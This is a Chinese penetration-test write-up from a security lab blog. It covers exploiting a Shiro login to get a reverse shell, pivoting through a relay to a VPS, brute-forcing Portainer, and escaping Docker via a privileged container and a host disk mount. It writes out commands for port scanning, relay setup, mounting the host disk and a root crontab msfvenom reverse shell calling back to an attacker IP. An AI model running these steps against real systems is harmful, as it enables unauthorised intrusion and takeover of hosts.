记一次逃逸Docker的渗透测试
Shiro漏洞利用
该网站页面存在Remember me，大概率是shiro

由于这个环境并不稳定，请求多了就卡住（自带防御属性啊～）
https://github.com/tangxiaofeng7/Shiroexploit

判断可以出网后把shell反弹到vps上：


Docker检测与逃逸

然后查看一些信息的时候发现命令找不到：

执行命令验证是否为docker环境：

确实为docker环境，那么就看看宿主机有没有什么漏洞可以利用，使用 cat /etc/hosts,看到了主机IP为 192.168.16.2：

到这里本来想代理流量本地开工具扫扫的，想想还是试试其他的方法来玩玩，那么这里先循环ping一下C段检测存活IP，在这里找到了一个脚本(https://blog.csdn.net/qq_38228830/article/details/81356984)，把工具下载到docker里：

探测IP:

发现个192.168.16.1，那这个肯定是宿主机了，接下来，探测下宿主机的端口啊~~，这里嘛就用curl来探测端口：
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/nullcurl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null

命令执行完了查看文件发现两个端口开着服务，一个是SSH：

一个是9000端口的Portainer面板：

那么思路来了，要么爆破进行SSH，要么爆破进Portainer，接下来可以上代理了，继续用wget下载到docker里：

Docker上执行:
chmod +x ligolo_linux_amd64 && ligolo_linux_amd64 -autorestart -relayserver 122.*.*.*:88VPS上执行:
localrelay_windows_amd64.exe -localserver 0.0.0.0:103 -relayserver=0.0.0.0:8888端口用于docker和vps通信，103端口用于开放socks代理。接下来用Proxifier设置代理了，先看看Portainer能不能访问：

链接SSH:

开始爆破！！！
成功爆破后，这里就登录Portainer进行Docker逃逸了：
注：Portainer是一个可视化的容器镜像的图形管理工具，利用Portainer可以轻松构建，管理和维护Docker环境。 而且完全免费，基于容器化的安装方式，方便高效部署。Portainer通过Docker.sock与宿主机进行通信，这是它的正常功能：

在freebuf看到是这么介绍的：

接下来开始逃逸，但是这里，我们进行链接的时候发现：

啊这，那就只能使用这个方法了：

好了，真的开始了逃逸了，先创建个容器：

这里给他选择个特权模式：

1.然后链接这个容器的shell：fdisk -l

2.此时查看/dev/路径会发现很多设备文件：ls /dev

3.新建目录以备挂载：mkdir /abcd
4.将/dev/sda1挂载至 /abcd: mount /dev/sda1 /abcd
5.最终我们可以通过访问容器内部的/abcd路径来达到访问整个宿主机的目的：ls /abcd:

6.接下来可以直接操作宿主的文件了！！！

7.直接写计划任务拿shell
先使用msfvenom生成一个python反弹shell的命令：
msfvenom -p python/shell_reverse_tcp LHOST=ip LPORT=520 -f raw(这里生成的是基于py2的)然后在docker里执行：
echo "* * * * * root python –c \" [msfvenom生成的代码]\"" /abcd/etc/crontab
可以看到反弹了shell回来，那么是不是这个宿主机Ubuntu呢？那肯定是，随便执行点命令看看：

好了，已经逃逸到Ubuntu了，接下来让它上线到CobaltStrike，使用CrossC2插件（https://github.com/gloxec/CrossC2）：

上线了：


总结

本文记录一次通过公网拿到docker容器权限，通过扫描发现宿主机地址，并对宿主机进行攻击，最后利用Portainer进行docker逃逸获得宿主机Ubuntu权限。


点赞，转发，在看
来源：雷石安全实验室